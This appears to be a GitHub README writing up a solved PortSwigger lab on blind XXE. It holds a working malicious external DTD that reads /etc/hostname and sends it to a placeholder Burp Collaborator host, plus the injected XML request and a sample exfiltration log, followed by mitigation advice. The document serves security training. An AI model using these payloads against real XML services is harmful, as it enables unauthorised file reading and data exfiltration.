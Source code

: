 
### 📁 `README.md` — Blind XXE + Malicious External DTD

# 📤 Blind XXE: Exfiltrating Data via Malicious External DTD

**🧪 Lab Level:** Practitioner  
**🔐 Vulnerability:** Blind XXE with External DTD  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Exfiltrate the contents of `/etc/hostname` using a crafted DTD and out-of-band interaction.

---

## 🔍 Lab Summary

This lab simulates a blind **XXE (XML External Entity)** vulnerability with:
- No visible output in the response
- Local file read capability
- Support for **external parameter entities**
- An **exploit server** or **Burp Collaborator** for data exfiltration

The challenge: use a **malicious external DTD** to exfiltrate the contents of `/etc/hostname`.

---

## ⚙️ Exploitation Workflow

### 1. 🧰 Create a Malicious DTD

Go to the **Exploit Server** and store this malicious DTD file:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
````

Replace `BURP-COLLABORATOR-SUBDOMAIN` with your real **Burp Collaborator payload**
🧠 Tip: In Burp Suite Pro, go to Collaborator tab → "Copy to clipboard"

---

### 2. 🔗 Save and Note the DTD URL

Click **“View exploit”** to get the **full URL** of the hosted DTD file, e.g.:

```
https://exploit-acad1234.web-security-academy.net/dtd.xml
```

---

### 3. 🚨 Inject the External DTD in XML Request

Intercept the “Check stock” POST request and modify the XML payload like so:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-acad1234.web-security-academy.net/dtd.xml">
  %xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

This triggers:

* `file:///etc/hostname` is read via `%file`
* Its content is sent to your Burp Collaborator endpoint via `%exfil`

---

### 4. 📡 Monitor the Collaborator Tab

* Click **“Poll now”**
* Look for HTTP interactions like:

```
GET /?x=ip-10-15-0-12 HTTP/1.1
Host: burp-collaborator.net
```

Success! 🎯 The hostname was exfiltrated using blind XXE.
![XXE](https://github.com/Kabilala/xxe/blob/main/lab5/lab5.png)
---

## 🧠 Technical Breakdown

| Element                        | Purpose                                  |
| ------------------------------ | ---------------------------------------- |
| `<!ENTITY % xxe SYSTEM "...">` | Loads the malicious DTD file             |
| `%file`                        | Reads local file from server             |
| `%eval; %exfil;`               | Defines and triggers exfiltration entity |
| Burp Collaborator              | Receives OOB data from vulnerable server |

---

## 🔐 Mitigation Strategies

* ❌ Disable external entity resolution in XML parsers
* ✅ Use secure XML libraries (e.g., `defusedxml`, secure XMLFactory features)
* 🔐 Enforce network egress filtering to block OOB exfil
* 🚨 Monitor internal systems for unexpected DNS/HTTP traffic

---

## 📚 References

* [PortSwigger XXE Labs](https://portswigger.net/web-security/xxe/blind/exfil)
* [OWASP XXE Prevention](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [PayloadsAllTheThings – XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)
---